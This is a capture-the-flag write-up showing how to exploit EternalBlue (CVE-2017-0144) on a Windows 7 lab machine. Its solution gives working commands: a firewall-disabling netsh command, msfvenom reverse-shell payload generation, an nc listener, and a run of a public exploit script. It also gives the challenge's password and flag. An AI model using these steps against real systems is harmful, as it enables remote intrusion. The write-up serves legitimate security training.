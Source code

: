 # BlueDoor Writeup

## Challenge Information

Link: https://github.com/sethwhy/BlueDoor/tree/main

Difficulty: 3/5

Category/Categories: Exploitation, Windows

Author(s): Seth Davis
References(s): worawit & strik1r

Description:

```
Can you exploit the EternalBlue vulnerability (CVE-2017-0144) on a Windows 7 system and retrieve the hidden flag? Your goal is to gain administrative privileges and locate the flag.txt file stored in the `C:\Windows\System32` directory.

This challenge simulates a real-world vulnerability and requires you to analyze the system, execute an exploit, and navigate to the restricted file location.

```

Hint(s):

- `Hidden in plain sight, more like plain text!`
- `Hmm System32 huh..`

When you first start the challenge, you are presented with:

A Windows 7 virtual machine vulnerable to EternalBlue (CVE-2017-0144).
A flag hidden in the system, requiring administrative privileges to access.

## Solution

```
1. Environment Setup:
Install and configure Kali Linux in your virtual environment (e.g., VMware, VirtualBox).
Ensure that your IP address matches the subnet of the target machine.

2. Network Scanning:
Use nmap to scan for open ports and detect if the target is vulnerable:
nmap -p 139,445 --script smb-vuln-ms17-010 <target-ip>
Confirm that TCP ports 139 and 445 are open and that the SMB service is vulnerable.
![image](https://github.com/user-attachments/assets/0e34d61b-b5d9-4a8d-8557-1efa66c33360)


3. Disable Firewalls (on the target)
If possible, run:
netsh advfirewall set allprofiles state off
This ensures no interference during the exploitation process.
![image](https://github.com/user-attachments/assets/20b1f218-6bea-4645-9c7d-36cb5286a7cd)

Password for Flag user that isnt the flag: 4770_sethwhy

4. Exploit EternalBlue:
Use Metasploit or any other payload generator to create a reverse TCP payload.
Some links for help the way I did it - https://github.com/helviojunior/MS17-010, https://github.com/worawit/MS17-010, https://redteamzone.com/EternalBlue/, https://www.rapid7.com/blog/post/2017/05/20/metasploit-the-power-of-the-community-and-eternalblue/

Assemble shellcode & create payload
- nasm -f bin eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin
- msfvenom -p windows/x64/shell_reverse_tcp LHOST=<VM kali machine ip> LPORT=<listen port i.e 4445> -a x64 -f raw -o sc_x64_msf.bin EXITFUNC=thread
(There are other ways to do this, im giving you one solution)

- Set up a listener on your attacking machine:
nc -lvnp 4445
![image](https://github.com/user-attachments/assets/a047336f-6970-4db7-824a-5b9f5cdca0a8)


- Run the command "python eternalblue_exploit7 <target-ip> <any shellcode that works>"

- Deliver the payload to the target and exploit the vulnerability.
![image](https://github.com/user-attachments/assets/678fa158-d826-4a15-bc05-94dcf7e93e7b)


5. Gain Administrative Privileges:
Once inside the system, check to see if privileges were escalated.
![image](https://github.com/user-attachments/assets/a1b09373-8e51-4873-b03b-ccaf7e21eb81)


6. Search for the Flag:
Look for .txt files in the C:\Windows\System32 directory with this command:
dir *.txt /s /b
![image](https://github.com/user-attachments/assets/c5bd2e43-70cd-4013-b4e3-3b5820d18d90)


Locate and open the flag.txt file to retrieve its contents.
![image](https://github.com/user-attachments/assets/a6711136-ef4e-4626-8124-1f7964a2752d)

```

Flag: `CTF{4770_sethwhy}`
